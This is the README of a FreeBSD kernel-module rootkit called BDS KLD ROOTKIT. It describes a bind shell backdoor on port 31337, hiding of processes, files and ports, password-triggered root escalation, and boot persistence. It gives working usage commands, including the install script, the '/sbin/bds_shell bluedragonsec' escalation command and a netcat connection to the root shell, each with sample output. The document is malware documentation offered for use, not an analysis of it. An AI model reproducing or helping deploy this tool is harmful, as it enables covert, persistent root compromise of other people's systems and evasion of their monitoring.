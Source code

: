 <h2>BDS KLD ROOTKIT</h2>
<p>
Freebsd KLD Rootkit for FreeBSD 13. Hide files, hide process, hide port, bind shell backdoor
<br>
Developed by : Antonius
<br>
Website : www.bluedragonsec.com
<br>
Github : https://github.com/bluedragonsecurity
<br>
Twitter :  https://twitter.com/bluedragonsec
</p>

<p>
<h3>Features</h3>
<ul>
  <li>Bind shell on port 31337</li>
  <li>Bind shell process hiding</li>
  <li>Hides file with prefix bds</li>
  <li>Hides bind shell port</li>
  <li>Privilege escalation with password</li>
</ul>
</p>

<p>
<h3>Installation</h3>
<br>
You need root privilege, make and gcc to install this rootkit. To install just type :
<pre>
./install.sh
</pre>
</p>

<h3>Using the Rootkit</h3>
<p>
<b>Privilege Escalation</b>
<br>
  Once the rootkit installed on the system, in case you lost root privilege, you can regain root privilege by typing :
  <pre>
  /sbin/bds_shell bluedragonsec
  </pre>
Typing above command will make you regain root privilege : 
<br>
<pre>
robotsoft@robotsoft ~> id
uid=1002(robotsoft) gid=1002(robotsoft) groups=1002(robotsoft),0(wheel),5(operator)
robotsoft@robotsoft ~> /sbin/bds_shell bluedragonsec
root@robotsoft:~ # id
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
root@robotsoft:~ # 
</pre>
</p>

<p>
<b>Connecting to Bind Shell Backdoor</b>
<br>  
Connecting to bind shell on a freebsd server which you have installed this rootkit can be accomplished simply by using netcat :
<pre>
nc (server ip) 31337
</pre>
For example, freebsd server with rootkit installed is at 192.168.0.141 : 
<pre>
root@robotsoft ~# nc 192.168.0.141 31337
FreeBSD robotsoft 13.2-STABLE FreeBSD 13.2-STABLE GENERIC amd64
sh: turning off NDELAY mode
id
uid=0(root) gid=0(wheel) groups=0(wheel)
pwd
/
</pre>
</p>

<p>
<b>Hiding Files and Directories
</b>
<br>
  To hide file and directory just give prefix bds to file name and directory name
</p>

<p>
<b>Process Hiding</b>
This rootkit hides bind shell process from ps.
</p>

<p>
<b>Port Hiding</b>
<br>
This rootkit hides bind shell port from netstat.
</p>

<p>
<b>Persistence</b>
<br>
The rootkit is activated every time the system starts up. After the reboot, wait for 1 minute, the rootkit will be loaded into kernel.
</p>
